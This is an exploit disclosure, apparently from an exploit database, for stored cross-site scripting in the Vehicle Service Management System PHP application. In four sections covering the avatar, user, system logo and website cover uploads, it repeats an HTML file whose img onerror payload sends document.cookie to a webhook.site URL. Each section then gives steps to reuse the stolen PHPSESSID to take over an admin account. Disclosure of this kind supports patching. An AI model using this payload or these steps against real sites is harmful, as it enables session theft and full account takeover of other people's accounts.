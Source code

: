 # Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover
Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover

### Exploit Title: Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover
### Date: 29/12/2021
### Exploit Author: P.L.Sanu
### Exploit Author Website: https://www.plsanu.com
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/14972/vehicle-service-management-system-php-free-source-code.html
### Version: <= 1.0
### Tested on: Windows 10
### CVE : 
### Google Dork: N/A
### Reference: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-cookie-stealing-leads-to-full-account-takeover/
- https://github.com/plsanu/Vehicle-Service-Management-System-Multiple-Cookie-Stealing-Leads-to-Full-Account-Takeover

## 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In My Account Section enter all the required details and browse the html file in Avatar.
7. Click on update button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

## 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Create New User Section enter all the required details and browse the html file in Avatar.
7. Click on Save button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

## 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in System Logo.
7. Click on update button.
8. Open the System Logo image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

## 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Steps to Reproduce:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in Website Cover.
7. Click on update button.
8. Open the Website Cover image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.
